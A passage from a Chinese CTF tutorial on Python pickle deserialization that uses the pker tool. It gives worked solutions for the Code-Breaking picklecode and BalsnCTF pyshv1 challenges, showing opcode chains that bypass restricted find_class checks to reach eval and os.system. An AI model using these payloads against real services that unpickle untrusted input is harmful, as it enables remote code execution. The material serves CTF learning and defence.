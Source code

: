 - 也可以先实例化再赋值：

```
animal = INST('__main__', 'Animal')
animal.name='1'
animal.category='2'
return animal
```

#### 手动辅助

- 拼接opcode：将第一个pickle流结尾表示结束的`.`去掉，两者拼接起来即可。
- 建立普通的类时，可以先pickle.dumps，再拼接至payload。

### pker：CTF实战

- 在实际使用pker时，首先需要有大概的思路，保证能做到手写每一步的opcode，然后使用pker对思路进行实现。

#### Code-Breaking: picklecode

解析思路见前文手写opcode的CTF实战部分，pker代码为：

```
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')
eval=getattr(builtins,'eval')
eval('print("123")')
return
```

#### BalsnCTF:pyshv1

题目的`find_class`只允许`sys`模块，并且对象名中不能有`.`号。意图很明显，限制子模块，只允许一级模块。
`sys`模块有一个字典对象`modules`，它包含了运行时所有py程序所导入的所有模块，并决定了python引入的模块，如果字典被改变，引入的模块就会改变。`modules`中还包括了`sys`本身。我们可以利用自己包含自己这点绕过限制，具体过程为：

1. 由于`sys`自身被包含在自身的子类里，我们可以利用这点使用`s`赋值，向后递进一级，引入`sys.modules`的子模块：`sys.modules['sys']=sys.modules`，此时就相当于`sys=sys.modules`。这样我们就可以利用原`sys.modules`下的对象了，即`sys.modules.xxx`。
2. 首先获取`modules`的`get`函数，然后类似于上一步，再使用`s`把`modules`中的`sys`模块更新为`os`模块：`sys['sys']=sys.get('os')`。
3. 使用`c`获取`system`，之后就可以执行系统命令了。

整个利用过程还是很巧妙的，pker代码为：

```
modules=GLOBAL('sys', 'modules')
modules['sys']=modules
modules_get=GLOBAL('sys', 'get')
os=modules_get('os')
modules['sys']=os
system=GLOBAL('sys', 'system')
system('whoami')
return
```
